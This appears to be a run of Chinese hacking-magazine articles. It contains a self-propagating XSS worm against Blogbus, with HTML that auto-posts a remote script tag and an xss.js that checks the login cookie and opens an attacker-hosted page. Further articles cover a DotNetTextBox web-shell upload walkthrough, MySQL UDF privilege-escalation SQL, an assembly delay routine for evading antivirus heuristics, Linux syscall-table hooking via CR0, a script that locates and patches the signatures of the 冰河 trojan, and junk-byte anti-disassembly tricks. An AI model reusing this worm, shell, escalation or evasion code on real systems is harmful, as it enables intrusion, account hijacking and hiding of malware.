比较棘手的是 XMLHttpRequest 为了安全考虑，无法跨域提交 POST 信息，所以这里也出现了问题。可以用微软提供的 XDomainRequest 来跨域提交 POST，但只针对 IE 浏览器，并且效果不好。后来在吃饭时想到一个简单的方法，直接用 HTML 来跨域提交。我的思路是在 JavaScript 文件里使用 window.open（也可以用其他很多方法，但为了防止代码滥用，我选择 window.open，因为浏览器会拦截弹出窗口的）打开一个用来跨域提交请求的 HTML 文件，在该 HTML 文件里，我设置了单击事件（Onclick），一旦发生单击事件，就提交 POST 请求。为了防止滥用代码，高手可以换成其他事件。

直接给出完整 HTML 代码，如下所示。

```html
<html>
<title>XssTest</title>
<script language="javascript">
function xss(){
  // 自动提交表单内容
  document.form1.name.value='xss test';
  document.form1.description.value='xss test';
  document.form1.accessPwd.value='';
  document.form1.meta.value='<script src="http://.../xss.js"></script>';
  document.form1.submit();
}
</script>
<body Onclick="xss()">
<form name=form1 action=http://blog.home.blogbus.com/settings/basic method=post>
<table>
<tr><td><input type=hidden name=name></td></tr>
<tr><td><textarea name=description style="border:none;overflow-y:hidden"></textarea></td></tr>
<tr><td><input type=hidden name=accessPwd></td></tr>
...
<tr><td><textarea name=meta style="border:none;overflow-y:hidden"></textarea></td></tr>
<tr><td><input type=hidden value=PUT name=REQUEST_METHOD></td></tr>
</table>
</form>
</body>
</html>
```

注意有个隐藏的输入框 `<input type=hidden value=PUT name=REQUEST_METHOD>`，之前我没加这个，怎么 POST 提交都没感染，后来才发现需要这个。

完整的 xss.js 代码如下。

```javascript
var blogbus_cookie = document.cookie;
// 查找并判断是否登录
if (blogbus_cookie.indexOf('bus_uid=') != -1){
  var height = window.screen.availHeight;
  var width = window.screen.availWidth;
  window.opener = null;
  window.open('http://192.168.127.135/xs.htm','blank',
    'height='+height+',width='+width+',left=0,top=0,toolbar=no,menubar=no,scrollbars=yes,resizable=yes,location=no,status=no');
}else{
  //alert('no login');
}
```

用另外一个用户登录，访问嵌入了以上代码的博客，就会弹出一个空白网页。当单击了该空白网页，就会被感染，效果如图 4 所示。


图 4

其实用脚本写 XSS Worm 还有很多玩法，不同的方法危害程度也不同。其实不用 Ajax 技术写 XSS Worm 也挺有意思的。XSS 很灵活，XSS Worm 很强大。

- 前置知识：无
- 关键词：DotNetTextBox、Shell、IIS

## DotNetTextBox 编辑器的一些拿 Shell 方法


文/图 刘伟全

有个朋友说想要一站源码，大概看了一下网站，没发现什么可利用的，又看了同服务器的，发现全是同一个公司做的，风格完全一样，界面都很好看，因为前台没什么好利用的，就找了一下后台，试了好多弱密码后，终于进入了一个。看了整体功能，发现有个编辑器 DotNetTextBox，只能传图片格式，但是它提供一个重命名功能。如果是在 Win+IIS6.0 环境下，结合 IIS 解析漏洞很好拿 Shell。上传、改名，发现 upload 这个文件夹没有脚本执行权限。回到编辑器，发现上传路径也可以改。同样的方法，如果你觉得抓包有感觉，那你就改抓包上传吧。传应该是传上去了，下面的文件列表只列出 upload 目录下的文件。当然不怕麻烦的话，可以写个判断页面是否存在的小程序，根据当前时间循环也可以得到 Shell 地址。如果怕服务器时间不准，你就先传个图片到当前目录，看文件名就明白了。第一次见这种编辑器，看看有没有其他好玩的，在左下角发现有个“高级设置”链接，如图 1 所示。


单击进入，链接是 `http://www.xxx.org/admin/system_dntb/Advanced.aspx`。

原来这个编辑器扩展性还挺好，很多东西都是可以配的。拉到最下面，发现上传文件、上传图片的格式都可以配，如图 2 所示。


可惜“更新”按钮是灰色的，不可用。没事，这个是 JavaScript 控制的，直接在 Chrome 下把 `disabled="disabled"` 去掉，如图 3 所示。

```html
<td style="height: 25px; width: 90%;">
  <input name="FileFilters" type="text" value="rar,zip,pdf,txt" id="fileFilters" style="width:328px;">
</td>
<td style="height: 25px; text-align: right;">
  <input type="submit" name="but" value="更新" id="Button2" disabled="disabled" ...>
</td>
```

图 3

加上“aspx”，单击“更新”按钮，提示更新成功，如图 4 所示。这下你想传什么就传什么了。后来发现还有一个好玩的，它可以利用重命名来跳转目录，如图 5 所示。


加上 `../`，它就跳到上一级，和 upload 同级了。这个功能在图片存放路径没有脚本执行权限的时候很好用。Aspx 的站，权限还可以，在 IISPY 中找到目标站，打包源码，开始备份数据库，找到 web.config，利用那里的数据库用户名、密码连接，怎么都连不上。用 Windows 认证脚本，能连上去，但是没有权限。有一点可以确定，程序是正常的。后来直接改了原来那个程序，改成直接取它的配置文件中的连接字符串，连接成功，备份完成。如图 6 所示。


任务完成了，也没什么其他事，再看看能不能提权吧。在看同服务器站点的时候，发现有 PHP 站点，3306 也开着。找到 MySQL 目录，把它的 User 表三个文件下载到本地，查看 root 的 hash 值，能破。收费，发现最近 CMD5 能查出来的概率是越来越大了，但都是收费的。找了一个朋友帮忙破解了一下，得到了 root 密码，如图 7 所示。


开始 UDF，连上后执行如下 SQL。

```sql
CREATE TABLE Stream (shellcode BLOB);
INSERT INTO Stream values (CONVERT(传统的 shellcode，因为太长，要的看自己 google 下 CHAR));
SELECT shellcode FROM Stream INTO DUMPFILE 'C:/windows/mysqlDll.dll';
Create Function state returns string soname 'mysqlDll.dll';
```

提示：

```text
Error: Can't open shared library 'mysqlDll.dll' (errno: 2)
```

查看了一下 MySQL 的 5.1.39 版本，然后网上有人说，因为 MySQL 5.1 及以后的版本中，又多了一个限制：创建函数时所用的 DLL 只能放在 MySQL 的 plugin 目录里面，而这个 plugin 目录默认是不存在的。那么自己在 MySQL 安装目录下创建 lib/plugin 文件夹。

用 `SHOW VARIABLES LIKE '%plugin%';` 显示 MySQL 的安装路径，建了文件夹，确认导出了 udf，`SELECT stream FROM Stream INTO DUMPFILE "D:/Program Files/MySQL/MySQL Server 5.1/lib/plugin/mysqlDll.dll";` 但是还是提示那个错误。不明白为什么，后来直接拿到启动项等重启了。因为 1433 也开着，就试着用 root 的密码去登录 sa，没有成功，也没有继续弄下去。又不着急，等服务器重启吧，希望拿到权限后能知道为什么。

过了几天，拿到了权限，如图 8 所示。


开始查找不能成功的原因，直接跑到 MySQL 目录中，以为是导入 shellcode 的时候没导完整，看了文件大小，并没有差异；然后以为是 MySQL 降权了，但是查看 MySQL 服务后发现没有降权；又看了进程，以为和杀毒软件有关系，关了所有的安全程序后，再次创建函数，还是不行。Google 搜索了一下错误信息，说是权限问题，都不对。

后来竟傻傻地去修改环境变量，真傻，都说了 5.1 版本后是不看环境变量的，我还去改。仔细一想为什么找 plugin 这里的？搜索了一下，说是 plugin_dir 这个键决定的。打开 my.ini 并没有发现配置 plugin_dir，直接连上 MySQL，执行 `show variables like '%plu%';` 如图 9 所示，正反斜杠很刺眼，难道是因为它？


到一台以前用 UDF 成功提权的服务器上执行，发现没有设置 Value，如图 10 所示。


于是跑去修改 my.ini，写上 `plugin_dir="D:\Program Files\MySQL\MySQL Server 5.1\lib\plugin"`，重启 MySQL，再次创建函数，失败。细心的朋友会发现这样改更扯了，斜杠全反了，如图 11 所示。


改成 `plugin_dir="D:/Program Files/MySQL/MySQL Server 5.1/lib/plugin"`，重启后成功导出，如图 12 所示。


需要正斜杠。

附上几个 SQL，可以用来查看自己服务器是否被 UDF。

- 查看 function：`show function status;`
- 删除被加载的 function：`drop function function_name;`

前置知识：汇编

关键词：非源码、启发式、免杀

## 非源码后期处理免杀启发式

文/图 一个人


最近一直在研究有关杀毒软件启发式的免杀方法，而且看到近期黑防杂志上也有对这方面讨论的相关文章。但我们一直讨论的方法都是在有源码的情况下，假如我们拿到的是一个编译好的 PE 文件而且手里并没有源码，那我们该如何针对杀毒软件的启发式做免杀处理呢？针对这个问题也就有了这篇文章。

众所周知，我们后期做免杀的时候要想修改一个 PE 文件，用到的只有汇编语言，通常都是用 OD 之类的工具载入后修改，因此可以想到能不能把以前总结的一些针对源码的语言改成汇编语言呢？经过我的一些尝试发现是不太可能的，因为我们要做的是反启发，再说通俗点也就是判断文件是在正常的环境里还是在杀毒软件虚拟出来的环境里。随着现在杀毒软件的越来越强大，要判断这个环境不调用到 API 函数是非常困难的，那么只要我们源码里有用到 API 函数但现成的 PE 文件里又没有这个 API，那就很不好办了。当然有些同学可能会说利用 LOADPE 这样的工具后期手动加 API 函数，这当然是可以的，但函数加进去以后我们在写汇编代码时还是要进行堆栈处理、返回值保存等类似一系列工作，而且工作量是巨大的。不过我说这些也是为了抛砖引玉，有能力的同学是可以自己试一下的。我今天用的方法也就是这种思路，只是我选择了需要 API 很少的方法——延时法过启发式，可以把整段代码打造成一个汇编的子程序，后期使用时加上，再调用一下就可以了，下面把代码贴出来并做简要的说明。

```asm
004019B0  60                 pushad
004019B1  E8 00000000        call 004019B6
004019B6  58                 pop eax
004019B7  2D B6194000        sub eax,004019B6
...
004019D1  52                 push edx
004019D2  B8 00204000        mov eax,<KERNEL32.GetProcAddress>
...
004019DA  8B00               mov eax,dword ptr [eax]
```

```asm
004019DC  50                 push eax
004019DD  8BDC               mov ebx,esp
004019DE  6A 65              push 65
...
00401A15  85D1               test ecx,edx
00401A17  75 01              jnz short 00401A1A
00401A19  CC                 int3
...
00401A31  B8 00300000        mov eax,3000
00401A36  B9 00100000        mov ecx,1000
00401A3B  6A 00              push 0
00401A3D  E2 FC              loopd short 00401A3B
...
00401A56  E2 FD              loopd short 00401A55
```

```asm
00401A58    B9 00100000      mov   ecx,1000
00401A5D    6A 00            push  0
00401A5F    E2 FC            loopd short 00401A5D
00401A61    B9 00100000      mov   ecx,1000
00401A66    5F               pop   edi
00401A67    E2 FD            loopd short 00401A66
...
00401A93    C3               retn
```

本代码的开始和结束是经典的 PUSHAD 和 POPAD 组合，有用代码的结束位置实际为 00401A2C 处，下面是一大段花指令，执行过程中会调用花指令来更大意义上迷惑杀毒软件，这也给我们很大的发挥空间，大家可以改成自己的花指令，但注意要是子程序的形式最后 RETN 返回。程序刚开始先用经典语句打造重定位，然后建立堆栈基址并获取 kernel32.dll 的基址再压栈，方便后面使用，然后获取 GetProcAddress 函数的入口地址，有了这两样东西我们就方便多了，所以大家用代码的时候要改两个地址：一是 004019B7 处的内容，要改成减去上一句的地址，为了做好重定位；二是 004019D2 处的内容，要改成 GetProcAddress 的地址赋予 EAX。然后我们利用的是 GetSystemTime 函数，从 004019DF 开始的 4 句就是把它的名字压进栈里，然后调用 GetProcAddress 得到 GetSystemTime 的入口并压栈存取，接着从堆栈里获取一个地址给 GetSystemTime 存储数据用，然后获取系统时间返回给 EAX 并执行花指令拖长指令运行时间，然后继续获取系统时间返回给 EBX，并对比两次的时间……

前置知识：无  
关键词：Linux、文件加密

## 为 Linux 2.6.3x 添加文件加密系统调用


文/图 CrazyRabbit

文件加密功能现在变得越来越重要，但是目前 Linux 尚未提供直接的系统调用来实现该功能。本文详细描述了如何为 Linux 2.6.3x 内核添加系统调用，并讲解了如何使用 Linux 提供的加密函数实现加密、解密。目前，关于 Linux 内核加密函数的使用介绍较少，本文将是一个弥补。

读者不需要对系统调用机制做全面的了解就能够修改系统调用。本节只对 Linux 系统调用做必要的解释。本文基于的系统调用模型如图 1 所示。

### Linux 系统调用

系统调用是为用户层应用提供内核服务的接口。由于内核所提供的服务运行于内核态中，因此无法直接调用相应的服务例程，而只能通过系统调用来实现用户/内核空间的跨越。对于不同的体系结构，系统调用的机制并不一样。本文仅考虑使用最广的 i386。


> 图 1 Linux 系统调用模型

用户程序要想调用系统调用需要通过特定的方式，如 `syscall()`，或者使用汇编代码实现。因此，Glibc 对系统调用又做了一层封装并做了扩展。用户程序调用 Glibc 库中的例程，然后 Glibc 再去调用系统调用。Glibc 与修改系统调用没有直接的关联，因此本文将略过。

系统调用真正被调用的过程为：标识系统调用的系统调用号被存储在 `eax` 寄存器中。当 Glibc 将系统调用的全部信息（调用号和参数）都载入相应寄存器后，使用软中断（`int 0x80`）进入内核态并执行 `system_call`。中断服务例程根据 `eax` 中的值识别调用号，再由 `system_call_table` 定位实际系统调用；返回时通过 `syscall_exit` 与 `resume_userspace` 返回用户层。

了解 Linux 下系统调用的基本原理后，下面介绍如何为 Linux 添加/修改系统调用。可采用静态方式（修改源码）或动态方式（替换 `system_call_table` 项）。本文分别介绍两种方法；考虑内核安全，内核中仅添加简单函数，核心功能由模块实现。

`sys_crypt` 的参数含义为：`infile` 为待加密输入文件名，`outfile` 为加密后输出文件名，`keybuf` 存储密钥，`keylen` 指明密钥长度，`flags` 指示加密或解密（0 为加密，1 为解密）。

### 2. 导出新系统调用

接下来修改相关头文件，将新添加的系统调用导出。需要修改的文件包括：`syscall_table_32.S`、`syscalls.h`、`unistd_32.h`（增加 `sys_crypt` 声明、系统调用表项与调用号定义）。

```text
syscall_table_32.S: 在文件最后添加 `.long sys_crypt`
syscalls.h: 在 `#endif` 前增加 `asmlinkage long sys_crypt(...)`
unistd_32.h: 将 `__NR_syscalls` 从 338 改为 339，并增加 `#define __NR_crypt 338`
```

上述三个文件加上源文件，构成系统调用在内核源码中的三个组成部分：系统调用符号、系统调用表和系统调用源/头文件。关系如图 3 所示。


### 3. 重编内核

在上述工作完成后重新编译内核，重启进入新内核即可调用新增系统调用。关于重编内核不再赘述。

### 静态添加系统调用

第一种方法是直接静态修改 Linux 源码。为了静态添加系统调用，需要完成三个工作。

- 1. 添加系统调用的实现

新增系统调用可以写在已有源文件中，也可以新建源文件。本文为简便起见，将系统调用添加在已有源文件中。示例为文件加密调用，添加到 `fs/open.c`。

### 动态添加系统调用

静态方法最终仍需重编内核，虽然更安全稳定，但工作量大、耗时。这里描述动态添加系统调用的方法：通过定位并替换 `system_call_table` 对应项实现“添加/替换”。

```c
/* This is my system call */
asmlinkage int (*mysyscall)(const char __user *infile, const char __user *outfile, const char __user *keybuf, int keylen, int flags)=NULL;

asmlinkage long sys_crypt(const char __user *infile, const char __user *outfile, const char __user *keybuf, int keylen, int flags) {
    if (mysyscall != NULL)
        return mysyscall(infile, outfile, keybuf, keylen, flags);
    else
        return -ENOSYS;
}
EXPORT_SYMBOL(mysyscall);
```

图2 文件加密系统调用实现

这段代码通过函数指针 `mysyscall` 与 `EXPORT_SYMBOL` 导出，使内核模块可见；`sys_crypt` 检测指针是否赋值，若已赋值则调用，否则返回 `ENOSYS`。

```c
1. #define mysyscallno 200
2. unsigned long *sys_call_table=0;
3. int original_cr0;
4. static int (*original_syscall)(void);
...
9. init_module() {
   sys_call_table = search_sys_call_table_address();
   original_syscall = (int(*)(void))(sys_call_table[mysyscallno]);
   original_cr0 = clear_and_return_cr0();
   sys_call_table[mysyscallno] = (unsigned long)&mycrypt;
   restore_cr0(original_cr0);
}
...
17. cleanup_module() {
   original_cr0 = clear_and_return_cr0();
   sys_call_table[mysyscallno] = (unsigned long)&original_syscall;
   restore_cr0(original_cr0);
}
```

图4 动态“添加”（替换）系统调用伪代码

对上述代码的详细解释如下：

- 第 1 行，定义要替换的已有系统调用号，此处以 200 为例。
- 第 2～5 行，定义变量。
- 第 6～8 行，定义加密函数的实现。
- 第 9～16 行，init_module 的实现。
- 第 11 行，在内存中搜索 system_call_table 的地址。中断 0x80 由用户层调用告知内核执行系统调用。这个机制可以用于找到 system_call_table 的地址……能够得到 sys_call_table 的地址。
- 第 12 行，保存原始系统调用。
- 第 13 行，在 /proc/kallsyms 中我们可以看到 sys_call_table 是 “R”，即只读……因此，我们需要首先修改 CR0，然后再修改 sys_call_table。
- 第 14 行，使用我们的系统调用替换原来的。
- 第 15 行，恢复 CR0 寄存器。
- 第 17～22 行，cleanup_module 的实现。
- 第 19 行，同第 13 行。
- 第 20 行，恢复原始系统调用。
- 第 21 行，同第 15 行。

至此，我们已经知道了两种添加系统调用的方法，接下来将讲述文件加密系统调用的实现。

### 加密实现

本文的加密模块以静态添加系统调用为对象进行描述，其中设计 hash 和加密两种模式。在加密模块的初始化代码中，对内核导出的变量 mysyscall 赋值为 mycrypt。mycrypt 是真正实现加密的函数。相应地，在模块结束代码中将 mysyscall 赋值为 NULL。

接下来分析 mycrypt 的实现。在该函数的开始处是一些分配内存、将密钥及加密算法名复制到内核内存区的操作。接下来调用 my_md5 对用户提供的密钥进行 MD5 运算，得到 16 字节的密钥。

在 my_md5 中我们假设用户提供的密钥已经经过 MD5 运算得到 16 字节的密钥……调用 init_completion()、crypto_alloc_ahash()、ahash_request_alloc() 等，分配并准备 hash 所需结构与数据，最终调用 crypto_ahash_digest 完成取 hash 值，并释放相关资源。

加密后的数据。使用 ahash_request_set_callback() 设置回调函数用于完成之后设置 struct completion……然后，使用 sg_init_one 将待加密内容添加到 scatterlist 中。接着就是使用 ahash_request_set_crypt 准备取 hash 值所需的所有内容。最后调用 crypto_ahash_digest 完成取 hash 值。最后不要忘记调用 ahash_request_free 和 crypto_free_ahash，将 struct crypto_ahash 和 struct ahash_request 的资源释放。

在完成 my_md5 之后，mycrypt 继续打开输入文件和输出文件，同时调用 conflict_file() 检测这两个文件是否为同一个。至此，调用 do_sys_crypt 开始加密工作。

在 do_sys_crypt 中开始初始化自定义的 struct cipher_vector。随后，由于本文将以 aes-32 为例，而这种块加密算法是以一整块数据为加密对象，此处要计算待加密/解密文件的大小，并计算总共的块数。对于加密文件来说较简单，而对于解密文件，我们需要去除加密文件头。接下来，对于加密的情况，首先将写入文件头。加密后的文件结构如图 5 所示。

图 5  加密输出文件

而对于解密，则是取出文件头，并对其进行解密。在上述工作完成后，则开始正常的加密解密工作。该过程由 do_crypt 完成，该函数的流程如下。

- crypto_alloc_ablkcipher 函数分配 struct crypto_ablkcipher *tfm。
- ablkcipher_request_alloc(tfm, GFP_KERNEL) 分配 struct ablkcipher_request *req。
- crypto_ablkcipher_setkey 设置加密解密密钥。
- sg_init_one 将加密/解密内容添加到 scatterlist。
- ablkcipher_request_set_crypt 设置加密所需要的数据。
- 对于加密，调用 crypto_ablkcipher_encrypt；对于解密，调用 crypto_ablkcipher_decrypt。
- 最后调用 crypto_free_ablkcipher 和 ablkcipher_request_free 分别释放 struct crypto_ablkcipher 和 struct ablkcipher_request。

最后，对于最后一个加密、解密块，由于涉及 padding 的问题，因此需要对 padding 处理后才能加密、解密。该功能由函数 do_last_crypt 实现。由于该函数涉及的 padding 问题与本文关系不大，因此略过。

### 结语

本文描述了通过动态和静态两种方法为 Linux 2.6.3x 内核添加系统调用的方法，同时详细地说明了 Linux 内核加密函数的使用。本文附带的源码列表如下，请到黑防官方网站下载。

- open.c, syscall_table_32.S, syscalls.h, unistd_32.h：静态添加系统调用修改后的内核源码文件。
- sys_crypt.c：实现新系统调用的内核模块。
- user.c, user.h：测试新系统调用的用户程序。

前置知识：汇编  
关键词：病毒、特征码

## 浅谈病毒特征码定位

文/图 iceboy

传统的杀毒软件依靠特征码来识别病毒。比如有三个文件，内容分别是“我是水果”“我是蔬菜”“我是病毒”。用“病毒”作为特征码来扫描这三个文件，得到的结论自然是：第三个文件是病毒。

在实践中，特征码的选取往往非常讲究。选取得恰当，可以用最短的片段有效地识别病毒；选取得不好，则容易造成“误报”或“漏杀”。特征码储存在病毒库里，随着病毒库的体积越来越大，杀毒软件的“误报”现象也越来越严重。某些工具（比如“易语言”汉语编程、UPX 可执行文件压缩等）由于经常被邪恶的病毒作者使用，懒惰或不小心的病毒分析人员提取了“公共运行时”的特征码，造成所有使用这类工具制作的软件均被误报，令人沮丧。一些新颖的方法被提出，比如“主动防御”“云安全”等，不过传统特征码杀毒的方法仍被许多杀毒软件使用。

杀毒软件就像一个黑盒，输入一个个文件，输出它们“是否为病毒”。病毒库通常是加密的，从而避免自己公司的特征码被别的公司获得。许多人为了避免自己的软件被误报成病毒，常常采取加壳，甚至混淆整个文件等暴力做法；这其实是不必要的，只需要找到特征码并修改就可以了，这样的修改往往只涉及几个字节。那么，如何定位特征码呢？答案是二分搜索。

本文记录了一次真实的特征码定位与免杀实验。首先来搭建实验平台，我们使用 VirtualBox 虚拟机，装好系统之后，还需要下面的工具：

| 软件名称 | 版本 | 用途 |
|---|---|---|
| 瑞星杀毒软件 | 23.00.18.97 | 用于实验的黑盒 |
| 冰河 | 2.2 | 用于实验的“病毒” |
| UPX | 3.07w | 用于“脱壳” |
| Python | 3.1.3 | 用于执行脚本 |
| IDA | 5.5 | 用于静态反汇编 |
| UltraEdit | 特别版 | 用于修改二进制文件 |

其中冰河是一款十多年前的远程监控软件，由于 90% 以上使用者都将它当作木马，因此被众多杀毒软件无一例外地认定为病毒。我下载到的压缩包里包含 G_Client.exe、G_Server.exe 和 Readme.txt，其中 G_Server.exe 的 SHA1 为 fddb79d31cc00da342c075cc76aac1cdf7ad999b；如果你下载到的和我的不同，下文数据中的具体数值可能会有所不同。

G_Server.exe 是我们研究的对象，为了避免误操作，我们将它改名为 original_file。我们知道，它有一层 UPX 压缩壳，因此要使用 UPX 进行脱壳，命令行为“upx -d original_file”。脱壳之后的 SHA1 为 8602d091940ee78379df6aee362038df6482cf8d。

生物学的基因工程中常采用鸟枪法来获得所需的 DNA 片段。首先，使用限制性内切酶将目的 DNA 随机地处理成若干片段，再使用 DNA 连接酶将其整合到载体的基因中，并使其表达。如果某个细胞中得到了目的产物，就说明该细胞中的 DNA 片段即为所求。

特征码定位的思路与其类似，不同之处在于由于我们可以使用计算机对片段的大小进行精确控制，因此可以等体积而不是随机地划分，这会降低时间复杂度的常数。进一步地，我们可以递归地进行定位，不断缩小区间的大小，这会降低时间复杂度中多项式的系数。下面给出伪代码描述。

已知一个或多个特征码在区间 [low, high] 中，我们将这个区间分为若干个小区间，分别擦除每一个区间中的数据并生成文件。接着，用黑盒（杀毒软件）对这些文件进行处理。对于每一个文件，有两种结果：如果被杀掉了，说明该文件对应的区间内不包含特征码，我们不再考虑它们；如果没被杀掉则相反。现在，我们从一个大区间分得了若干个小区间。递归地重复这一操作便可以得到足够小的区间，从而进行人工分析。

然而，上面的递归描述工作量仍然巨大，我们需要写一个脚本来帮助完成这些复杂的工作，这里采用 Python 实现，先给出完整的代码。

```python
import os
import itertools

# constants
ORIGINAL_FILE = "original_file"
MAX_PIECES = 32
MIN_PIECE_SIZE = 8
WORKING_DIR = "c:\\itest"

try:
    os.makedirs(WORKING_DIR)
except:
    pass

file = open(ORIGINAL_FILE, "rb")
buffer = file.read()
file.close()

def split_file(low, high):
    pieces = min((high - low + MIN_PIECE_SIZE - 1) // MIN_PIECE_SIZE, MAX_PIECES)
    piece_size = (high - low) // pieces
    start, remain = low, high - low
    for i in range(0, pieces):
        piece_size = min(piece_size, remain)
        l = list(buffer)
        if start + piece_size <= len(l):
            l[start:start + piece_size] = itertools.repeat(0, piece_size)
            f = open(WORKING_DIR + "\\piece_" + str(i), 'wb')
            f.write(bytes(l))
            f.close()
            yield i, start, piece_size
            start += piece_size
            remain -= piece_size

def recurse(low, high):
    print('recurse on [' + str(low) + ',' + str(high) + ')')
    if high - low <= MIN_PIECE_SIZE:
        return list(range(low, high))
    pieces = list(split_file(low, high))
    print('please run av on ' + WORKING_DIR)
    input()
    queue = []
    for piece in pieces:
        freed = True
        try:
            os.remove(WORKING_DIR + '\\piece_' + str(piece[0]))
        except:
            freed = False
        if freed:
            queue += [piece]
    result = []
    for piece in queue:
        result += recurse(piece[1], piece[1] + piece[2])
    return result

def combine(list):
    result = [[list[0], list[0] - 1]]
    for i in list:
        if result[-1][1] == i - 1:
            result[-1][1] = i
        else:
            result += [[i, i]]
    return result

print(combine(recurse(4096, len(buffer))))
```

每次 recurse 函数被调用时，当前处理的区间为 `[low, high)`。如果这一区间足够大，就将它分成若干个小区间，每个小区间对应一个临时文件，文件中相应区间的部分被擦除。

生成这些临时文件后，我们需要运行一次杀毒软件，对它们进行处理。接着，脚本会在删除的同时判断这些文件在杀毒之后是否仍然存在。如果存在，说明该文件被“免疫”，将对应的区间加入到待处理队列中。删除完所有的临时文件后，处理队列中的区间。

令人遗憾的是，通过一些简单的实验，我没有找到通过命令行启动瑞星杀毒软件对指定文件进行杀毒的方法，因此每次都要手动运行杀毒软件，幸好实际运行次数并不多。

上面的代码中还有两点值得提及。一是起始区间从 4096 开始，是为了避免将 PE 文件头包含到特征码定位的区间里。二是块数和大小需要仔细考虑，块数多一些能减少递归次数，但是会增加需要进行杀毒处理的文件总数；大小大一些也能减少递归次数，但是会增加接下来人工处理的难度。如果能自动启动杀毒软件，上面的块数还可以减少一些。

经过 12 次杀毒，上面的脚本停止运行，输出以下结果：

```
[[127311,127324],[257193,257199],[516943,516956]]
```

对应的十六进制区间为：

```
[[1F14F,1F15C],[3ECA9,3ECAF],[7E34F,7E35C]]
```

这表明，该文件中一共有三处特征码。这里显示的是文件中的地址，我们需要将其转换为（内存）虚拟地址。

用 LordPE 载入 original_file，查看 Sections，得到如图 1 所示的结果。

| Name | VOffset | VSize | ROffset | RSize | Flags |
|---|---:|---:|---:|---:|---|
| .text | 00101000 | 0009B000 | 00000600 | 00098300 | 60000020 |
| .data | ... | ... | ... | ... | ... |
| .rdata | ... | ... | ... | ... | ... |

图 1：Section Table

我们看到，三处特征码均位于“.text”段中。将地址减去 ROffset，再加上 VOffset 和 ImageBase（例中为 400000），就得到了虚拟地址表示的区间：

```
[41FB4F,41FB5C], [43F6A9,43F6AF], [47ED4F,47ED5C]
```

我们用 IDA 载入 original_file，看看这三处特征码究竟是什么。

第一处特征码是一段代码，IDA 给出的注释表明这有可能是 VCL 运行时库的一部分，如图 2 所示。

```asm
.text:0041FB4D call unknown_libname_497 ; Borland Visual Component Library
.text:0041FB52 mov [ebx+20h], eax
.text:0041FB55 mov eax, [ebx+24h]
.text:0041FB58 cmp eax, 1
...
```

图 2

第二处特征码是一个字符串，如图 3 所示。

```asm
.text:0043F6D1 align 4
.text:0043F6D4 db 'SystemCurrentControlSet\\Control\\Keyboard Layouts\\1.8x',0
.text:0043F6D0 align 4
```

图 3

第三处特征码是一段代码，如图 4 所示。

```asm
.text:0047ED4E mov ecx, [eax]
.text:0047ED50 call dword ptr [ecx+4]
.text:0047ED53 mov al, [esp+2Ch+var_14]
.text:0047ED57 or  al, [esp+2Ch+var_13]
.text:0047ED5B jz  short loc_47ED84
```

图 4

显然，修改第三处特征码最好。中间的 mov 和 or 好像是为我们的实验量身定做的一般。我们知道，或运算是满足交换律的，交换左右操作数不会影响结果。我们将变量名替换成偏移地址，并打开 opcode 显示，如图 5 所示。

```asm
.text:0047ED53 8A 44 24 18    mov al, [esp+18h]
.text:0047ED57 0A 44 24 19    or  al, [esp+19h]
```

图 5

显然，我们只需要交换 18h 和 19h。用 UltraEdit 打开 original_file，搜索 8A4424180A442419，替换成 8A4424190A442418；免疫完成。

前置知识：汇编

关键词：免杀、花指令

## 打乱晦涩的花指令

文/图 GF

### 前述

花指令发展到今天已经是五花八门。最近看到一个算是思路创新式的花指令思想，觉得很有意思，不敢独享，借此与各位分享。

此思路源于反汇编引擎算法的漏洞。目前主流的反汇编引擎算法分为线性扫描和递归下降。关于二者的概念我就不再赘述。这里大致总结一下二者的优缺点。

线性扫描能覆盖所有代码段。但是它的主要缺点是没有考虑混杂在代码段中的数据。这在《IDA Pro 权威指南》一书中也明确提出。本文所针对的反汇编引擎也是这一类引擎。

递归下降算法重在分析程序流程结构。它的主要优点是具备区分代码和数据的能力。缺点是对“变量型跳转”表示茫然；如：jmp ecx。通常若不是程序实际运行起来，是没有办法确定跳转的目标的。

相应以上不同算法引擎，我们最常用的调试分析利器代表分别为：OD 和 IDA。

### 原理

原理在上面已经有所提及。即线性扫描默认代码段没有数据部分，所以将所有二进制机器码都作为执行代码来分析。那么一旦遇到定义的数据，必会引起后面分析的混乱。

### 演示

现在我们转入正题，来看一段简单的代码，这里我用的是内联汇编，代码比较简洁易懂。

```c
MessageBoxA(0,"test",0,0);
__asm{
    jmp lab
    _emit 0xe8
lab:
    mov eax,4
    mov eax,5
    mov eax,6
    mov eax,7
}
return 0;
```

注意在 `_emit 0xe8` 前需要执行跳转，否则计算机会把 `_emit 0xe8` 当作执行代码来执行，那么必然导致程序出错。更为符合汇编语言代码习惯的，应该是将上述 `_emit 0xe8` 换成 `db 0xe8`。

因为内联汇编不允许使用汇编关键字定义变量：DB、DW、DD、DQ、DT、DF，所以使用微软提供的 `_emit` 关键字，等同于 DB，即一次定义一个字节。

我们先来看 VS2005 反馈给我们的反汇编代码，如图 1 所示。

```c
int _tmain(int argc, _TCHAR* argv[])
{
  00411A00 push ebp
  00411A01 mov ebp,esp
  ...
  __asm{
    jmp lab
    _emit 0xe8
  }
  ...
}
```

图 1

从图 1 的方框部分可以看出 VS2005 已经被迷惑了，并且也导致我们写的代码异常：`mov eax,4` 和 `mov eax,5` 不见了。

`_emit 0xe8` 被反汇编成了两条指令。我们定义的数据 `0xe8` 被看作是 `call` 指令对应的机器码，然后自动将后面 4 字节作为地址。后面 4 字节即 `mov eax,4` 的机器码前 4 位：`B8 04 00 00`。通过验证也是符合我们的推论的：`0x4b8 + 0x411a3a + 0x5 = 0x411ef7`。

不过 VS2005 貌似有自动纠错机制，当代码执行到 `jmp lab` 时自动纠正了反汇编代码，如图 2 所示。

```c
int _tmain(int argc, _TCHAR* argv[])
{
    MessageBoxA(0,"test",0,0);
    __asm {
        jmp lab
        _emit 0xe8
    lab:
        mov eax,4
        mov eax,5
        mov eax,6
        mov eax,7
    }
    return 0;
}
```

图 2

将生成好的程序丢进 OD，下断点在 `MessageBoxA`，如图 3 所示。

```asm
00401014  jmp short 00401014
00401017  call 0040100D
...
mov eax,4
mov eax,5
mov eax,6
mov eax,7
ret
```

图 3

可以看到 OD 被迷惑了，并且不具备 VS2005 那样的纠错机制。虽然不影响程序执行，但是反汇编代码显示已经很“诡异”了。

再来测试 IDA。根据前面提到的，IDA 是不会被迷惑的，试验证明也的确是这样的，如图 4 所示。

```asm
; int __cdecl main(int argc, const char **argv, const char **envp)
push 0
push 0
push offset Text ; "test"
push 0
call ds:__imp__MessageBoxA@16
jmp short loc_401014
...
mov eax,4
mov eax,5
mov eax,6
mov eax,7
```

图 4

